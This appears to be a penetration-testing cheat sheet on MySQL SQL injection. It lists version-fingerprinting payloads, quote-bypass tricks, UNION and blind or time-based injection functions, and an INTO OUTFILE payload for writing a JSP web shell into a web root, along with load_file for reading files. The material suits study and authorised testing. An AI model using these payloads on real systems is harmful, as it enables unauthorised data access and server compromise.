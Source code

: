 # MySQL
---
- **[Fingerprinting MySQL](#Fingerprinting%20MySQL)**
- **[Attack Vectors](#Attack%20Vectors)**
---
MySQL comes with at least four versions which are used in production worldwide, `3.23.x`, `4.0.x`, `4.1.x` and `5.0.x`. Every version has a set of features proportional to version number.
-   From Version 4.0: UNION
-   From Version 4.1: Subqueries
-   From Version 5.0: Stored procedures, Stored functions and the view named `INFORMATION_SCHEMA`
-   From Version 5.0.2: Triggers

It should be noted that for MySQL versions before 4.0.x, only Boolean or time-based Blind Injection attacks could be used, since the subquery functionality or `UNION` statements were not implemented.
## The Single Quotes Problem
 #### Bypass the need of single quotes
 Let’s suppose we want to know the value of a field named `password` in a record.
 1.  Password like `'A%'`
2.  The ASCII values in a concatenated hex: `password LIKE 0x4125`
3.  The char() function: `password LIKE CHAR(65,37)`

## Multiple Mixed Queries
MySQL library connectors do not support multiple queries separated by `;`
# Fingerprinting MySQL
When a comment block `'/**/'` contains an exclamation mark `'/*! sql here*/'` it is interpreted by MySQL.

Example:
```sql
1 /*! and 1=0 */
```
## Versions
using comment fingerprinting with a version number 
```sql
/*!40110 and 1=0*/
```
which means
```txt
if(version >= 4.1.10)
   add 'and 1=0' to the query.
```
***These are equivalent as the result is the same.***

**In band injection:**
```sql
1 AND 1=0 UNION SELECT @@version /*
```
**Inferential injection:**
```sql
1 AND @@version like '4.0%'
```
# Attack Vectors
If the connected user has `FILE` privileges and single quotes are not escaped, the `into outfile` clause can be used to export query results in a file.
```sql
Select * from table into outfile '/tmp/file'
```
> Note: there is no way to bypass single quotes surrounding a filename. So if there’s some sanitization on single quotes like escape `\'` there will be no way to use the `into outfile` clause.

#### Write a payload to a file
```sql
1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code here%>';
```

 - Results are stored in a file with `rw-rw-rw` privileges owned by MySQL user and group.
 -  Where `/var/www/root/test.jsp` will contain:
`//field values// ] <%jsp code here%>`

#### Read from a File
```sql
load_file('filename')
```

# Blind SQL Injection
-   String Length:
    -   `LENGTH(str)`
-   Extract a substring from a given string:
    -   `SUBSTRING(string, offset, #chars_returned)`
-   Time based Blind Injection:
    -   BENCHMARK and SLEEP `BENCHMARK(#ofcycles,action_to_be_performed)` The benchmark function could be used to perform timing attacks when blind injection by boolean values does not yield any results. See. `SLEEP()` (MySQL > 5.0.x) for an alternative on benchmark.